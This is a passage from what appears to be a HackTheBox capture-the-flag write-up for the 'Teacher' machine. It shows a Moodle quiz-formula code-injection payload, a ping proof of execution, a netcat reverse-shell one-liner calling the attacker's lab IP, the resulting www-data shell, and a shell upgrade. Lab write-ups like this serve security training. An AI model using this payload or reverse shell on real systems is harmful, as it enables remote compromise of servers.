 ```

/*{a*/`$_GET[0]`;//{x}}

```

#### Execution

I’ll log in using giovanni / Th4C00lTheacha#, and then go to Algebra. From there, I’ll click the gear icon and “Turn editing on”:

![1555339641587](https://0xdfimages.gitlab.io/img/1555339641587.png)

Then, for any of the Topics, I’ll click “Add an activity or resource”, select Quiz, and hit “Add”. I’ll make up a name and description, and save it.

Now I can click on the quiz and then click the “Edit Quiz” button. I’ll click “Add” and then “a new question”. In the pop-up I’ll select “Calculated” and click “Add”. I’ll fill in all the required fields, but the only one that matters is the “Answer 1 formula”. In there I’ll add the string from exploit.

I’ll save, hit next, and then add `&0=ping -c 1 10.10.14.3` to end of url. When I do, I see a ping back to me on `tcpdump`.

Here’s the full attack:

[![Full Exploit POC](https://0xdfimages.gitlab.io/img/teacher-rce.gif)*Click for full size image*](https://0xdfimages.gitlab.io/img/teacher-rce.gif)

### Shell

I’ll use this RCE to get a shell, grabbing my go to from the [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), adding `0=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.3 443 >/tmp/f` to the end of the url. I did have to encode the `&` so that it wasn’t treated as another parameter. I’ll get a callback on `nc`:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.153.
Ncat: Connection from 10.10.10.153:40490.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Upgrade

I’ll upgrade my shell to a full tty. Use `python` to launch bash through the `pty` module. Background the shell with Ctrl-z, then run `stty raw -echo`. Then type `fg` to bring the shell back to the foreground. And run `reset` to get the shell working again. Finally, I’ll `export TERM=screen` so I can clear and other things like that.
